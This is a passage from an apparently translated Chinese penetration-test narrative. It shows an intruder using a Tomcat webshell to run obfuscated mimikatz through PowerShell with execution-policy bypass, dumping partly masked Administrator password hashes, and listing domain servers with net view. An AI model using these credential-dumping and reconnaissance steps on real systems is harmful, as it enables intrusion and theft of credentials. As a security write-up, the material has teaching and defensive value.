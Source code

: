 我们这次没那么幸运了，没有收到反向shell。这台服务器可能不能连接到互联网，于是我们又一次转向了Tomcat的webshell，并且安装了混淆过的mimikatz



```
cmd /c powershell -executionpolicy bypass -f c:tomcatwebappscmdwarfilesm.ps1
.#####. mimikatz 2.1 (x64) built on Nov 10 2016 15:31:14
.## ^ ##. “A La Vie, A L’Amour”
## /  ## /* * *
##  / ## Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
‘## v ##’ http://blog.gentilkiwi.com/mimikatz (oe.eo)
‘#####’ with 20 modules * * */
mimikatz(powershell) # sekurlsa::logonpasswords
Authentication Id : 0 ; 191734 (00000000:0002ecf6)
Session : Interactive from 1
User Name : Administrator
Domain : SRVINTRANET
Logon Server : SRVINTRANET
Logon Time : 2/17/2017 2:12:31 PM
SID : S-1-5-21-938204560-2839928776-2225904511-500
msv :
[00010000] CredentialKeys
* NTLM : 604603ab105adc8XXXXXXXXXXXXXXXXX
    * SHA1 : 7754ff505598bf3XXXXXXXXXXXXXXXXXXXXXXXXX
[00000003] Primary
* Username : Administrator
* Domain : SRVINTRANET
* NTLM : 604603ab105adc8XXXXXXXXXXXXXXXXX
    * SHA1 : 7754ff505598bf3XXXXXXXXXXXXXXXXXXXXXXXXX
tspkg :
wdigest :
* Username : Administrator
* Domain : SRVINTRANET
* Password : (null)
kerberos :
* Username : Administrator
* Domain : SRVINTRANET
* Password : (null)
ssp :    KO
credman :
mimikatz(powershell) # exit
Bye!
```

我们得到了本地管理员的密码哈希，但是没有明文。这是因为我们的目标服务器是Windows Server 2012，而在2008以后，事情发生了变化，WDigest凭证就不再储存明文了（不禁怀念过去的美好时光），此外credman是空的。总之这次发现也不差吧。

我们决定找到一个能够访问互联网的服务器，因为我们现在依然在借助一个连接不稳定的安卓手机完成渗透工作。

通过net view命令，我们得到了可用的共享服务器列表



```
Server Name Remark
————————————————-
\SRVDC1 Domain controller PDC
\SRVDC2 [4] Domain Controller
\SRVWSUS Server WSUS
\SRVAV Server AV
\SRVFILE1 File Server
```

这就是真正的服务器网络

